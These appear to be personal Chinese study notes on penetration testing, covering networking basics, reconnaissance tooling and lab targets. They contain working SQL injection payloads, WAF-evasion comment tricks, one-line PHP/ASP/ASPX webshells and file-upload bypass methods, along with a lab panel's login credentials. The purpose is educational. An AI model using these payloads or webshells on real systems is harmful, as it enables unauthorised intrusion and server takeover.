# 渗透测试学习
首先，熟读法律全文：https://baike.baidu.com/item/%E4%B8%AD%E5%8D%8E%E4%BA%BA%E6%B0%91%E5%85%B1%E5%92%8C%E5%9B%BD%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E6%B3%95/16843044


渗透测试时模拟黑客真实攻击方法，对系统和网络进行非破坏性质的攻击性测试，找到系统中存在的漏洞。以渗透测试结论为依据，对漏洞进行安全加固。

所有渗透测试行为将在客户书面明确授权和监督下进行。

## 环境相关
1、kali 看兴趣篇有关于这个的下载
2、CFS三层内网靶机安装步骤：https://teamssix.com/191021-211425.html

一般网关就是路由器

阿里云镜像源：https://developer.aliyun.com/mirror/kali?spm=a2c6h.13651102.0.0.b98b1b11xgGpSF


kali解决无法粘贴主机复制的内容：`apt-get install open-vm-tools-desktop fuse` 安装open-vm-tools-desktop

kali虚拟机代理：https://www.freebuf.com/articles/sectool/377583.html

通过ssh主机操作虚拟机：





靶机1：一个网卡和主机同一个网段，一个网卡是22网段，网卡的ip能在主机浏览器上访问到靶机上的宝塔面板：http://192.168.5.10:8888/a768f109/



账号：eaj3yhsl
密码：41bb8fee

靶机2：一个网卡和靶机1同网段，第二个不同

靶机3：与靶机2同网段

3、Docker
4、Docker compose



5、Burp Suite

6、WAMP搭建靶场

7、LAMP搭建靶场

8、docker搭建漏洞靶场 vulhub，vulnapp，vulfocus


## 网络协议基础
### 网络协议分层
网络协议通常分为5层：
- 应用层
- 传输层
- 网络层
- 数据链路层
- 物理层

#### 应用层
用户直接能接触到的就是应用层，电脑或手机使用的应用人家都是在应用层实现的。当两个不同设备需要通信时，应用就把应用数据传给下一层（传输层）

应用层工作在操作系统中的用户态，传输层及以下则工作在内核态。
（跟clr对上了，这也是为什么访问数据库会经过为内核态）

#### 传输层
应用层数据包传给传输层，传输层为应用层提供网络支持的。

传输层两个传输协议：
- TCP 传输层控制协议
  - 大部分应用使用的是TCP协议（比如HTTP应用层协议）
  - 比UDP多了很多特性：流量控制，超时重传，拥塞控制等
  - 只能点对点，但是可靠（Web、数据库、SSH、邮件）
- UDP
  - 只负责发生数据包，不保证数据包是否抵达
  - 实时性好，传输效率高
  - 可以实现可靠传输，把TCP特性实现在应用层上，但是比较困难
  - 可以点对点、广播、多播，但是不可靠（DNS、DHCP、游戏、视频直播）



端口号属于传输层的概念，是用来区分不同应用的数据。80通常是web服务器用，22通常是ssh远程登录服务器用。浏览器中每个标签栏都是一个独立进程，操作系统会为这些进程分配临时端口号。

传输层报文会携带端口号，接收方可以识别该报文是发生给哪个应用。

#### 网络层

实际场景网络环境是非常复杂，有各种主机，局域网，公网等，要一个设备的数据传输给另一个设备，需要在各种路径和节点进行选择。这是网络层的工作。

传输层协议值需要服务号应用，让其作为应用间数据传输的媒介，实际的传输功能是交给网络层的。

网络层最常用的是IP协议，IP协议将传输层的报文作为数据部分，加上IP包头组装成IP报文，如果IP报文大小超过MTU，会再次进行分片，得到即将发送到网络的IP报文。

IP地址全球唯一指的是公网IP，由IANA / ISP 分配，官网IP在互联网上唯一，而私有IP在局域网内部唯一即可，所以很多家庭或公司网络看到的IP前两段式192.168，访问互联网时NAT（网络地址转换）把局域网 IP 映射为公网 IP，所以很多局域网的设备都有相同的地址，但通过NAT上网不会冲突。


IP地址分成两种意义：
- 网络号，负责标识该IP地址属于哪个子网
- 主机号，负责标识同一子网下的不同主机

需要配合子网掩码才能算出IP地址的网络号和主机号，在寻址过程中，先匹配相同的网络号才会找对应的主机。








#### 数据链路层
网络不是一个整体，所以数据不仅可以在同一个网络设备间进行传输，也可以跨网络进行传输。

路由器的最核心使命：网络之间的通信靠路由器，一个网络可以没有路由器（纯内网），路由器可以通过路由表计算出下一个要去的IP地址

路由器怎么知道这个IP地址是哪个设备呢？就是通过数据连路层来标识网络中的设备。

每台设备的网卡都有一个mac地址，它是用来唯一标识设备的。路由器计算出下一个目的地IP地址，再通过ARP协议找到该目的地的MAC地址，这样就知道这个IP地址是哪个设备了。

IP 地址
- 作用：用于 定位网络中的主机，类似“你家住址”。
- 特点：可以改变，比如你连接不同的 Wi-Fi 网络、使用移动数据或者 VPN，你的 IP 会变。
- 层级：工作在 网络层（第三层）。

MAC 地址
- 作用：用于 唯一标识网络接口卡（NIC），类似“身份证号”。
- 特点：通常固定在设备硬件上（网卡），不随网络环境变化。
- 层级：工作在 数据链路层（第二层）。

同一子网：IP用来定位逻辑设备，MAC用来实际传输数据
跨子网：IP决定路由路径，MAC负责下一跳


#### 物理层
当数据要从设备发送到网络，需要把数据包转换成电信号，让其可以在屋里介质中传输。这一层是物理层。主要是为数据链路层提供二进制服务。

图详解计算机网络基础知识：https://zhuanlan.zhihu.com/p/363053447
计算机网络各层网络设备（中继器、集线器、网桥、交换机：https://blog.csdn.net/Alexhcf/article/details/107853652


### ARP和RARP协议
ARP是网络层和数据链路层之间的协议，通常归为数据链路层
RARP属于数据链路层协议


传输一个IP数据包时，确定源IP和目的IP后就会通过主机路由表确定IP数据包下一跳，网络层下一层是数据链路层，所以还需要知道下一跳的MAC地址。

主机的路由表可以找到下一条的IP地址，通过ARP协议得到对应的MAC地址。

- 主机广播发送ARP请求，包中包含想要知道的MAC地址的主机IP
- 同个链路中所有设备（两个设备能在 二层直接发送帧（用 MAC 地址）而不经过路由器，就是同一个链路。）收到ARP请求，如果目标IP与自己IP一直，那么这个设备将自己的MAC地址塞入ARP响应包返回给主机

ARP 协议是已知 IP 地址 求 MAC 地址，那 RARP 协议正好相反（RARP已被DHCP取代）。

场景：打印机服务器等小型嵌入式设备接入到网络
- 通常这需要架设一台 RARP 服务器，在这个服务器上注册设备的 MAC 地址及其 IP 地址
- 将这个设备接入到网络
- 该设备会发送一条「我的 MAC 地址是XXXX，请告诉我，我的IP地址应该是什
么」的请求信息
- RARP 服务器接到这个消息后返回「MAC地址为 XXXX 的设备，IP地址为 XXXX」
的信息给这个设备

### HTTP
HTTP属于应用层协议

是基于请求与响应，无状态的应用层协议，通常基于TCP/IP协议传输数据。所有互联网文件都必须遵守这个标准。


HTTP是一个在计算机世界专门在两点之间传输文字、图片、视频、音频等超文本数据的约定和规范。




协议：规范计算机之间交流通信的语言，各种控制和错误处理方式，也就是行为约定和规范
传输：两点之间传输数据的约定和规范
超文本：是文字，图片，视频等的混合体，还有超连接能从一个超文本跳转到另外一个超文本，最常见的超文本是HTML，本身只是一个纯文字文件，但内部用很多标签定义图片，视频等链接，经过浏览器解释，呈现的就是一个有文字画面的网页

HTTP请求四个部分：
- 请求行
- 请求头部：除了host其他都是可选的
- 空行
- 请求正文





HTTP请求头：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Reference/Headers/Accept


HTTP响应消息四个部分：
- 状态行
- 消息报头
- 空行
- 响应正文






### 同一资源定位符（URL）
URL 遵守一种标准的语法，它由协议、主机名、域名、端口、路径、以及文件名这六个部分构成，其中端口可以省略。
`protocol:[//[user[:password]@]host[:port]][/path][?query][#fragment]`

`[协议名]://[用户名]:[密码]@[主机名]:[端口]/[路径]?[查询参数]#[片段ID]`

- protocol：指定使用的传输协议，最常用的是通过 HTTP/HTTPS 协议来定位网络
资源
  - mailto: 用户打开邮箱的客户端
  - ftp: 用来做文件的转换
  - file: 用来获取文件
- #fragment：信息片断字符串，用于指定网络资源中的片断。例如一个网页中有多个名词解释，可使用fragment直接定位到某一名词解释

用户名和密码现在仍然有，不过现代安全标准是不建议把这两个放在URL的。

        URI
       /   \
     URL   URN

| 示例                               | 类型  | 解释                       |
| -------------------------------- | --- | ------------------------ |
| `https://example.com/index.html` | URL | 给出协议、位置 → 能访问            |
| `ftp://ftp.example.com/file.txt` | URL | 有访问方式、有位置                |
| `urn:isbn:978-7-121-15535-2`     | URN | 书的 ISBN 编号，只是一个名字，无法直接访问 |
| `mailto:service@example.com`     | URI | 标识一个邮箱，但不是 URL           |


## burp suite
### 配置代理
原本：client->server
配置代理：client->burpsuite service->server



vpn+burpsuite代理（不用插件的时候参考）：https://blog.csdn.net/Fly_hps/article/details/112951669

直接用谷歌插件（推荐，省事版）：https://chromewebstore.google.com/detail/proxy-switchyomega-3-zero/pfnededegaaopdmhkdmcofjmoldfiped?hl=zh-CN



https抓包需要配置https证书：








Google浏览器导入证书：安全 > 管理证书 > 受信任的根证书颁发机构 > 导入 > 选择 burpsuite.der

PortSwigger CA



## 信息收集
分类：
- 主动信息收集：通过直接访问网站在网站上进行操作，对网站进行扫描等，这种是有网络流量经过目标服务器的信息收集方式
- 被动信息收集：基于公开的渠道（搜索引擎等）在不与目标系统直接交互的情况下获取信息，并且尽量避免留下痕迹

收集的信息
- 域名信息（whois，备案信息，子域名）
- 服务器信息（端口、服务、真实IP）
- 网站信息（网站架构、操作系统、中间件、数据库、编程语言、指纹信息、WAF、敏感目录、敏感文件、源码泄露、旁站、C段）
- 管理员信息（姓名、职务、生日、联系电话、邮件地址）

### 域名信息收集



#### whois
Whois是一个用来查询域名是否已经被注册，以及注册域名的详细信息的数据库。
- web接口查询
  - https://whois.aliyun.com/
  - https://www.whois365.com/cn/
  - http://whois.chinaz.com/
- whois命令行查询
- 脚本查询

#### 备案信息
备案号是网站是否合法注册经营的标志，可以用网页的备案号反查出该公司旗下的资产。

- web接口查询
  - https://beian.miit.gov.cn/
  - http://www.beian.gov.cn/portal/registerSystemInfo
  - http://icp.chinaz.com/
  - https://icplishi.com/

#### Whois反查
可以通过注册人、注册人邮箱、注册人手机电话反查whois信息

不过很多公司都是DNS解析的运营商注册的,查到的是运营商代替个人和公司注册的网站信息。

https://whois.chinaz.com/reverse?ddlSearchMode=1
http://whois.4.cn/reverse
https://whois.aizhan.com/

#### 子域名
google搜索：`site:baidu.com` 查`baidu.com`下在子域名

使用第三方web接口（搜索子域名的第三方平台）：
- https://dnsdumpster.com/
- https://www.dnsgrep.cn/
- https://developers.virustotal.com/reference/domains-relationships
- http://tool.chinaz.com/subdomain
- https://phpinfo.me/domain/
- https://www.nmmapper.com/sys/tools/subdomainfinder/
SSL证书查询：大部分子域名用的是同一证书，可以通过证书查子域名
- https://crt.sh/
- https://developers.facebook.com/tools/ct/search/
脚本，js发现子域名：
- https://github.com/Threezh1/JSFinder
其他工具：
- https://github.com/lijiejie/subDomainsBrute
- https://github.com/aboul3la/Sublist3r


googleHacking（谷歌搜索语法）：https://www.exploit-db.com/google-hacking-database  

google浏览器是先在沙箱运行然后把结果返回给我们，所以即使访问的是钓鱼网站，只要我们不点击连接下载什么软件，就不会危害到宿主机，不会被控制。


#### 网络空间安全搜索引擎
扫描并展示全球互联网中：
- 暴露的服务器
- oT 设备（摄像头、路由器、智能家居）
- 工控设备（PLC、电厂设备）
- 各种 Web 服务
- API、APP 后台、测试机
- 开放端口（21/22/80/443/3306/6379/Elastic 等）
- 服务 Banner（版本号、服务类型）
- 证书信息
- 指纹（框架、CMS、语言、Web 容器）
- 弱密码设备
- 未授权访问服务（Redis、Elasticsearch、MongoDB）

甚至可以发现：
- 企业资产的暴露面
- 漏洞服务（Log4j、Struts2 等）
- 开放数据库
- 存在默认密码的设备
- 遗忘的测试服务器
- 多云资产泄露

平台：
- FOFA：https://fofa.info/
  - 白帽汇退出的网络空间搜索引擎，通过进行网络空间绘测，帮助研究人员或企业迅速进行网络资产匹配，例如进行漏洞影响范围分析、应用分布统计、应用流行度排名统计等
  - domain="baidu.com"
- 鹰图（有送积分）：https://hunter.qianxin.com
  - 可对全球暴露在互联网上的服务器和设备进行：资产探测、端口探活、协议解析、应用识别。
  - domain="baidu.com"
- 钟馗之眼：https://www.zoomeye.org/
  - 通过后端分布式爬虫引擎对全球节点的分析，对每个节点所拥有的特征进行判别，从而获得设备类型、固件版本、分布地点、开放端口服务等信息
  - site:"baidu.com"
- shodan：https://www.shodan.io/
  - hostname:baidu.com


### IP、端口信息收集
#### IP信息收集
1、IP反查域名
- http://stool.chinaz.com/same
- https://tools.ipip.net/ipdomain.php
- https://www.dnsgrep.cn/
- https://site.ip138.com/

如果渗透目标为虚拟主机，那么通过IP反查到的域名信息很有价值，因为一台物理服务器上面可能运行多个虚拟主机。这些虚拟主机有不同的域名，但通常共用一个IP地
址。如果知道有哪些网站共用这台服务器，就有可能通过此台服务器上其他网站的漏洞获取服务器控制权，进而迂回获取渗透目标的权限，这种技术也称为“旁注”。


2、域名查询IP
- http://ip.tool.chinaz.com/
- https://ipchaxun.com/
- https://site.ip138.com/

3、C段存活主机探测
```
192.168.1.0/24   ← 这一整段就叫一个 C 段
192.168.1.0 ~ 192.168.1.255
```

查找与目标服务器IP处于同一个C段的服务器IP:
- nmap
```
nmap -sP www.XXX.com/24
nmap -sP 192.168.1.*
```
- https://github.com/se55i0n/Cwebscanner

4、CDN
一个服务想要让各地用户都能快速响应，就需要在在全国各地部署CDN服务器，这些服务器同样有该服务的内容，中心服务器会把内容分发到这些边缘服务器上，让用户能够就近获取所需内容，降低网络拥塞，提高访问响应速度和命中率。

所以在如果有CDN，解析域名的时候是会解析到就近的CDN服务器，也就是说可能获取的不是真实的IP地址。

**判断有没有使用CDN技术**
1）多地ping
- http://ping.chinaz.com/
- https://ping.aizhan.com
- http://www.webkaka.com/Ping.aspx
2）国外访问：有些网站设置CDN可能没有把国外包含进去https://ip.tool.chinaz.com/ipbatch

**CDN绕过**
1）查询子域名的IP
https://ip.tool.chinaz.com/ipbatch

很多小站站点和主站在同一台服务器或同一C段内，而小站没有CDN，那就可以通过查询子域名对应的IP来辅助查找网站真实IP

2）MX记录邮件服务
如果网站在于web相同的服务器和IP上托管自己的邮件服务器，那原始服务器IP将在MX记录中。（发送邮件，邮件中就有这个IP记录）

3）查询历史DNS记录：查看 IP 与 域名绑定的历史记录，可能会存在使用 CDN 前的记录
- https://dnsdb.io/zh-cn/
- https://securitytrails.com/
- https://viewdns.info/iphistory/
- https://www.ip138.com/

区分一下几个服务器的作用：
- DNS负责定位（找到服务器）
- CDN负责加速（存内容的副本）
- 原始服务器负责提供真实数据

域名解析时会添加解析记录，这些记录有：A记录、AAAA记录、CNAME记录、MX记录、NS记录、TXT记录。(重要的就是A记录和NS记录 https://developer.aliyun.com/article/331012)
- A记录：指定主机名（或域名）对应的IP地址记录
- NS记录：域名服务器记录，指定该域名由哪个DNS服务器来进行解析
- MX记录：邮件交换记录，它指向一个邮件服务器，用于电子邮件系统发邮件时根据收信人的地址后缀来定位邮件服务器
- CNAME记录：别名记录，允许将多个名字映射到同一台计算机
- TXT记录：一般指某个主机名或域名的说明
- 泛域名与泛解析：在一个域名根下，以 *.Domain.com 的形式表示这个域名根所有未建立的子域名。 泛解析是把 *.Domain.com 的A记录解析到某个IP 地址上，通过访问任意的前缀 .domain.com 都能访问到你解析的站点上


#### 端口信息收集
协议端口：TCP协议和UDP协议是独立的，因此各自的端口号也互相独立
- TCP：给目标主机发送信息之后，通过返回的应答确认信息是否到达
- UDP：给目标主机放信息之后，不会去确认信息是否到达

渗透端口：https://www.cnblogs.com/bmjoker/p/8833316.html

用nmap可以进行端口扫描
或者用railgun工具


### 网站信息收集
**主要就是敏感目录和框架识别**


#### 判断操作系统
因为不同的操作系统会有不同的特性，根据这种特性找漏洞

1、ping判断，TTL大于100的一般是Windows，几十的一般是linux

2、nmap -O参数

3、Window大小写不敏感，linux区分大小写（修改url大小写）

#### 判断网站服务、容器类型
因为不同的容器类型，版本可考虑对应容器存在的漏洞

apache、nginx、tomcat、IIS


1、 F12查看响应头server字段



2、whatweb：https://www.whatweb.net
可以直接在linux安装




3、wappalyzer浏览器插件

#### 脚本类型

php
jsp
asp/aspx
python

知道是什么语言才可以针对性的进行文件扫描、文件上传

#### 数据库类型

mysql
sqlserver
access
oracle

sql注入测试需要知道是什么数据库

#### CMS识别
CMS：内容管理系统，用于网站内容文章管理

常见CMS：worldpress，dedecms(织梦)、Discuz、phpcms等。

不同cms有不同的漏洞。

识别工具：
https://github.com/Tuhinshubhra/CMSeek

#### 敏感文件、目录
敏感文件，目录挖掘一般靠工具、脚本找的，比如御剑、BBscan
一般看到这些文件就是漏洞了
```
robots.txt
crossdomain.xml
后台目录
网站安装目录
网站上传目录
mysql管理页面
phpinfo
网站文本编辑器
测试文件
WEB-INF/web.xml文件
备份文件（.rar, .zip, .7z, .tar, .gz, .bak）
```

robot.txt是一个纯文本文件，网站管理者可以在文件中声明网站中不想被搜索引擎访问的部分，或指定搜索引擎只收录指定的内容。

crossdomain.xml 需要的资源不在自己域服务器上，需要访问其他域服务器。跨域策略文件主要是为web客户端（如Adobe Flash Player等）设置跨域处理数据的权限。GoogleHacking语法：`inurl:crossdomain filetype:xml intext:allow-access-from`


sitemap.xml:方便网站管理员通知搜索引擎网站上有哪些可供抓取的网页。简单的sitemap形式就是xml文件，在其中列出网站中的网址以及关于每个网址的其他元数据。 GoogleHacking语法：`inurl:sitemap filetype:xml`


源代码泄露：
```
github
git
svn
.DS_Store
.hg
.bzr
cvs
WEB-INF
```

#### github泄露
代码上传的时候没有删除一些重要信息

#### .git泄露
如果因为配置不当，导致.git文件部署到线上环境，这就引起了git泄露漏洞。在网站安全维护方面，git和svn信息泄露，是非常常见也是非常致命的漏洞。会导致整个网站的源码泄露。

渗透测试人员、攻击者，可以进一步审计代码，挖掘：文件上传，SQL注入等web安全漏洞。

防护方法：在部署的时候，对.git文件夹进行删除；也可以在nginx配置中，对.git目录的访问进行屏蔽。

浏览器搜索暴露导网上的.git:`".git" intitle:"index of"`

根据.git还原源代码：https://github.com/lijiejie/GitHack

#### .svn泄露
跟git一样，都是用来版本迭代的一个功能

根据.svn还原源代码：https://github.com/admintony/svnExploit

浏览器搜索暴露到网上的.svn：`".svn" intitle:"index of“`

#### WEB-INF/web.xml泄露
WEB-INF是java的Web应用安全目录，想在页面中直接访问其中文件，必须通过web.xml文件对要访问的文件进行相应的映射。

WEB-INF主要包含：
- WEB-INF/web.xml:Web 应用程序配置文件
- WEB-INF/database.properties：数据库配置文件
- WEB-INF/classes/:一般存放java类文件（.class）
- WEB-INF/lib/：存放打包好的库(.jar)
- WEB-INF/src/：存放源码

通过找到web.xml推断class文件路径，最后直接下载class文件，再通过反编译class文件得到网站源码


#### 网站备份文件
管理员误将网站备份文件或是敏感信息文件存放在某个网站目录下。

通过对web目录扫描发现备份文件，通常是压缩包的格式。

对应的工具：https://github.com/7kbstorm/7kbscan-WebPathBrute

#### 目录探测
可通过暴力破解文件名等方法下载该备份文件，导致网站敏感信息泄露。

有两种方式：
- 用目录字典暴力猜测
- 用爬虫爬取页面上所有链接，对每个链接进行再次爬行，搜集这个域名下所有链接，然后总结出存在页面的信息


对应工具：
- dirsearch：https://github.com/maurosoria/dirsearch
- dirmap：https://github.com/H4ckForJob/dirmap
- 御剑后台扫描工具

#### 网站WAF（Web应用防火墙）识别
WAF功能：
- 防止常见各类网络攻击：SQL注入、XSS跨站、CSRF、网页后门等
- 防止各类自动化攻击，如：暴力破解、撞库、批量注册、自动发贴等
- 阻止其它常见威胁，如：爬虫、0 DAY攻击、代码分析、嗅探、数据篡改、越权访问、敏感信息泄漏、应用层DDOS、远程恶意包含、盗链、越权、扫描等

识别waf后才能针对这个waf进行攻击

识别waf
- wafw00f:https://github.com/EnableSecurity/wafw00f  （kali内置）
- nmap 
```
nmap –p80,443 --script http-waf-detect ip
nmap –p80,443 --script http-waf-fingerprint ip
```

常见waf：https://mp.weixin.qq.com/s/PWkqNsygi-c_S7tW1y_Hxw

#### 敏感目录收集方式
1、网页中找
- robots.txt查看是否有敏感目录
- F12源码链接处
- 通过查看一些图片的属性路径
- 结合域名+目录，用御剑进行扫描
- 手动输入一些常见的后台管理地址

2、其他端口中找
有时候网站的不同端口中有一些便是专门的后台管理地址：e.g. http://www.xxx.com:8080

3、网站分目录下找
有是网站会把管理地址放在一个分目录下，有时一个网站比较大，后台管理页面比较多，就要分目录找

4、子域名下找
有的网站管理地址会放在子域名下

#### 自动化漏洞挖掘
https://github.com/TophantTechnology/ARL-doc

EHole-3.0-new (有指纹识别会比较好，速度快)
 

## web安全基础
要会sql语句，基础就不在这里写了。

mysql系统表：information_shema
看做是一个信息数据库，保存这关羽mysql服务器所维护的所有其他数据库的信息，如数据库名，数据库的表，表栏的数据类型和访问权限等。

- schemata表：提供当前mysql实例中所有数据库的信息，show database结果就是从这个表拿的
- tables表：提供关于数据库中表的信息，表述某个表属于哪个schma，表类型，表引擎，创建时间等信息 show tables from schemaname就是从这个表获取的
- columns表：提供表中列信息，表述某张表的所有列以及每个列的信息

（说不上是表，其实是视图，information_shema没有物理表）






### SQl注入
#### 原理
练习靶场：https://github.com/Audi-1/sqli-labs.git

web应用程序没有对用户输入的数据合法性做判断。

攻击者把sql命令作为输入被服务器sql解释器正确解析执行，数据库把查询到的结果返回给服务器。

根据客户端返回的结果判断提交的测试语句是否成功被数据库引擎执行，如果测试语句被执行了，说明存在注入漏洞。

sql注入现在很少了，有的话估计是老项目来的。像dotnet有成熟的ORM/参数化机制，只要不是因为复杂查询或要高效查询而使用sql拼接，或者是dapper使用不当，基本不会有这个问题。

e.g.
```
username = admin' or 1=1--+
password = jadfij

select username, password from users where username='admin' or 1=1--+' and password = 'jadfij'
```
为什么需要 +
- SQL 注入防护绕过：有些数据库或应用程序可能会检测和过滤常见的 SQL 注入模式（如 --）。因此，攻击者通过在 -- 后添加 + 来规避过滤器，从而使得 SQL 注入的注释部分可以正确工作。
- 数据库兼容性：+ 在 SQL 中作为空格字符来分隔操作符和字段，某些数据库系统可能对空格的处理不同。通过在注释符号后添加 +，攻击者可以确保 SQL 注释符号不被误处理。

有一点需要注意：在 MySQL 中，AND 不保证 短路执行，所以即使前面的条件为 FALSE，后面的表达式也可能被执行



1、检查是否有sql注入漏洞
2、找sql显示位
3、隐藏正常显示用union进行sql注入


Mysql注释符：
- 注释符可以替换空格 (有些防火墙会检测空格，用这种就可以绕过)
`select/*123*/*/*123*/from/*123*/table`
- 内联注入
/**/在mysql中是多行注释，但是如果里面加了!,那后面内容就会被执行
`select/*123*/*/*123*/from/*!table*/`
- 单行注释符后面加换行也是可以执行
```
select * from #dhafusdh
user;
```

#### SQl 注入分类
- 按参数类型
  - 数字型
    - 用 `?id=1 and 1=2` 判断
  - 字符型
    - 用`?id=1' and 1=2 --+` 判断
  - 搜索型
    - 用`tom%' and '%1%' = '%1`
- 按数据库返回结果分类
  - 回显注入
  - 报错注入
    - 页面会显示报错信息的情况，可以利用显示的报错信息带出我们的目标查询信息 
    - 常用报错函数：updatexml()  extractvalue()  floor
  - 盲注：看不到返回结果的情况，只能通过bool或时间判断是否是这个值
    - 基于布尔
    - 基于时间
      - `?id=1' and sleep(5) --+`
- 按注入点位置分类
  - GET注入
  - POST注入
  - Cookie注入
  - Header 注入

这个字符型注入的，是mysql的特点，从左往右，遇到非数字停止，所以能查到数据，只是警告不会报错



url编码规则：https://developer.mozilla.org/zh-CN/docs/Glossary/Percent-encoding?utm_source=chatgpt.com


获取字段数：order by n

获取显示位：union select 1,2,3,4，...

获取数据库信息： version(), user(), @@datadir

获取当前数据库：database(), schema()



注入步骤：
- 判断
  - `id=1' and 1=1 --+`  `id=-1' or 1=1 --+`
- order by 语句判断字段数量
  - `id=-1' order by 3 --+`
- 联合查询获取显示位
  - `id=-1' union select 1,2,3 --+`
- 获取当前数据库
  - `id = -1' union select 1, (select database()), 3 --+`
- 获取所有数据库
  - `id=-1' union select 1, group_concat(schema_name), 3 from information_schema.schemata --+`
- 获取当前所有数据库表名
  - `id=-1' union select 1, group_concat(table_name), 3 from information_schema.tables where table_schema = 'security' --+`
- 获取users表所有字段
  - `id=-1' union select 1, group_concat(column_name), 3 from information_schema.columns where table_name = 'users' --+`
- 获取security.users表所有字段
  - `id=-1' union select 1, group_concat(column_name), 3 from information_schema.columns where table_name = 'users' and table_schema='security' --+`
- 获取security.users表所有字段内容
  - `id=-1' union select 1, username, password from users --+`


**盲注基本流程**
- 获取当前数据库长度
- 获取当前数据库名
- 获取当前数据库表总数
- 获取当前数据库表长度
- 获取当前数据库表名
- 获取当前数据库表字段总数
- 获取骶髂数据库表字段第N个长度
- 获取当前数据库表字段第N个字段名
- 获取当前数据库表字段内容长度
- 获取当前数据库表字段内容

mid(), substr() 截取字符串
ascii() ord() 返回字段的ascll码值

ascii表对照：https://www.runoob.com/w3cnote/ascii.html


#### 工具 SQLMAP
使用手册：https://github.com/sqlmapproject/sqlmap/wiki/Usage

自动化的检测，利用 SQL 注入漏
洞，获取数据库服务器的权限。

SQLMAP支持的注入模式：
- 基于bool盲注
- 基于时间盲注
- 基于报错注入
- 联合查询注入
- 堆叠查询注入





`sqlmap -hh` 比较全面

### 文件上传
文件上传漏洞是上传了一个可执行脚本，通过此脚本文件获得执行服务端命令的能力。

攻击者上传恶意文件传递给解释器执行，就可以在服务器上执行恶意代码，进行数据库执行，服务器文件管理，命令执行等恶意操作，从而控制整个服务器。这个恶意文件（php，asp，aspx，jsp等）被称为webshell （中国蚁剑 是webshell管理工具）


文件上传检测方式：
- 客户端JavaScript检测（检测文件扩展名）
```
  if (!file.endsWith('.jpg') && !file.endsWith('.png')) {
  alert("只允许上传图片！");
  this.value = "";
  }
```
- 服务端MIME类型检测（检测content-type内容）
```
if ($_FILES["file"]["type"] != "image/jpeg") {
    die("不允许上传非 JPEG 文件");
}
```
- 服务端目录路径检测（检测跟path参数相关内容）
```
/*
假设上传接口允许指定保存路径：POST /upload
path=uploads/avatar/
filename=1.png
*/

$path = $_POST["path"];
if (strpos($path, "..") !== false) {
    die("非法路径！");
}
```
- 服务端文件扩展名检测（检测跟文件extension相关内容）
```
$ext = pathinfo($_FILES["file"]["name"], PATHINFO_EXTENSION);
if ($ext != "jpg") {
    die("只允许jpg文件");
}
```
- 服务端文件内容检测（检测内容是否合法是否含有恶意代码）
```
$content = file_get_contents($_FILES["file"]["tmp_name"]);
if (strpos($content, "<?php") !== false) {
    die("检测到恶意代码");
}
```

#### Webshell
以ASP，PHP，JSP或CGI等网页文件形式存在的一种命令执行环境。攻击者入侵一个网站后，通常会将这些文件与网站服务器web目录下的正常网页文件混一起，然后使用浏览器来访问这些后门以达到控制网站服务器目的。

常用一句话webshell
```
php一句话木马： <?php @eval($_POST[value]);?>
asp一句话木马： <%eval request("value")%>
aspx一句话木马： <%@ Page Language="Jscript"%><%eval(Request.Item["value"])%>
```

<hr>

`<?php @eval($_POST['cmd']);?>`

php代码要写在<?php ?>里面，服务器才能认出来是php代码然后解析

@符号的意思是不报错，因为变量没有定义而被使用，服务器会提醒XXX变量未定义

`$_POST['cmd']` php里面有几个超全局变量，$_GET, $_POST 就是其中之一，意思是用post方法接受变量cmd传递来的字符

eval() 把字符串作为php代码执行

exec() 执行系统命令

例子：
上传正常文件然后拦截，修改内容：









<hr>


#### 上传文件绕过



#### 绕过客户端检测 js检测
通常在上传页面里含有专门检测文件上传的 JavaScript 代码，最常见的就是检测文件类型和扩展名是否合法。

在本地浏览器客户端禁用 JS 即可，利用 burpsuite 可以绕过一切客户端检测。

#### 绕过服务端检测
**绕过MIME检测**
检测图片类型文件上传过程中http包的 Content-Type 字段的值，来判断上传文件是否合法。

用burpsuite截取并修改数据包中文件的 content-type 类型进行绕过。




**绕过文件后缀检测-黑名单**
黑名单
```
php|php3|php4|php5|php7|php8|phtml|phps|pht|phar|
asp|aspx|asa|asax|ashx|asmx|axd|
jsp|jspx|jsw|jsv|jspf|war|
cgi|pl|perl|py|rb|rhtml|
exe|dll|com|bat|cmd|sh|bin|run|msi|
vbs|vbe|js|jse|wsf|wsh|ps1|psm1|psd1|
htaccess|conf|config|ini|inc|env|
zip|rar|7z|tar|gz|bz2|xz|iso|
sql|sqlite|sqlite3|db|mdb|accdb|
jpg|jpeg|gif|png|bmp|ico|svg|
docm|xlsm|pptm|
swf|jar|class|apk|
shtml|stm|stml|cer|csr
```

- 后缀大小写绕过 .Php
- 空格绕过 `.php `
- 点绕过 .php.
- ::$DATA绕过
  - 这是Window NTFS文件系统的特性，因为 Windows 的 NTFS 文件系统支持“数据流”，平时我们看到的内容其实是：test.txt:$DATA，只是 $DATA 默认不显示。

- 配合Apache解析漏洞
  - Apache解析有一个特点，解析文件时是从右往左判断，如果为不可识别解析再往左判断，如aa.php.owf.rar文件，Apache不可识别解析‘.owf’和‘.rar’这两种后缀，会解析成.php文件
- .htaccess 文件
  - .htaccess 能修改 Apache 服务器的解析规则，攻击者通过上传一个恶意 .htaccess 文件，可以让任意扩展名（如 .jpg、.txt、.mp4）被当作 PHP/脚本语言执行，从而绕过所有后缀限制与黑名单（简单的说就是.htaccess 是 Apache 的“目录级配置文件”，所以我们可以指定把后缀不是php的文件当做php执行）

**绕过文件后缀检测-白名单**
服务端判断文件类型是从后往前判断，而对文件解析是从前往后解析，可以利用00截断的方式进行绕过，包括%00截断与0x00截断。（php小于5.3.29才可用）

传一个文件名 shell.php%00.jpg，PHP 白名单检查看到的是 .jpg（合法），但文件系统保存时把 %00 当做字符串结束符，只保存为 shell.php，于是被当成 PHP 执行。

**绕过文件内容检测**
检测文件内容方法：
- 通过检测文件上传内容开始处的幻数判断
  - 要绕过就要在上传文件的开头处写下对应的内容
- 文件加载检测：把用户上传的文件用“真实的程序函数”打开，看看能不能当作指定类型处理 
  - 先补充一个知识点：PHP有一个重要特性对不认识的内容全部当做普通文本忽略，只执行它认识的 PHP 代码标签，所以针对这个特性可以对文件加载检测进行绕过
  - 找一张正常图片，对注释区填充恶意代码，这时候内容检测是能通过的，然后通过url访问上传的图片（只有当服务器错误地把该图片当成 PHP 来解析时（如 .htaccess 修改、解析漏洞、include 调用），隐藏的恶意代码才会被执行），php会自动执行注释区的代码


什么是幻数：幻数（Magic Number）就是文件开头的一段特定二进制序列，用于标识文件类型，而不是文件扩展名。
| 文件类型     | 幻数（Hex）                 | 说明              |
